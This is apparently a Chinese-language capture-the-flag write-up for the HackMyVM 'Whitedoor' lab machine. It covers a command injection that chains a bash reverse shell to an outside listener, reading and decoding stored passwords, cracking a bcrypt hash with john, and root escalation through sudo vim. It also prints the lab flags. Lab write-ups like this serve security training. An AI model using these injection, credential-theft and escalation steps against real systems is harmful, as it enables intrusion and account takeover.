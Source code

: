 # Whitedoor

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Whitedoor

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 没有用信息。

80 web 上可以执行命令，但是需要 ls 开头，这里使用;分割命令:

```
ls /etc/;/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"
```

拿到 web shell。

枚举发现其他普通用户密码：

```
www-data@whitedoor:/home/whiteshell$ cat /home/whiteshell/Desktop/.my_secret_password.txt
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
```

su 切换到 whiteshell , 对 VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K 进行 2 次 base64 解码得到: Th1sIsTh3P4sSwOrDblac5

发现另外一个用户的密码哈希:

```
whiteshell@whitedoor:/home/Gonzalo/Desktop$ cat /home/Gonzalo/Desktop/.my_secret_hash
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
```

john 解密哈希得到密码 qwertyuiop 切换到 Gonzalo 用户。

先拿到 user flag:

```
Gonzalo@whitedoor:~$ cat Desktop/user.txt
Y0uG3tTh3Us3RFl4g!!
```

sudo 显示 vim 直接提权到 root:

```
Gonzalo@whitedoor:~$ sudo -l
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
Gonzalo@whitedoor:~$ sudo /usr/bin/vim

root@whitedoor:/home/Gonzalo# cd /root
root@whitedoor:~# ls
root.txt
root@whitedoor:~# cat root.txt
Y0uAr3Th3B3sTy0Ug3Tr0oT!!
```

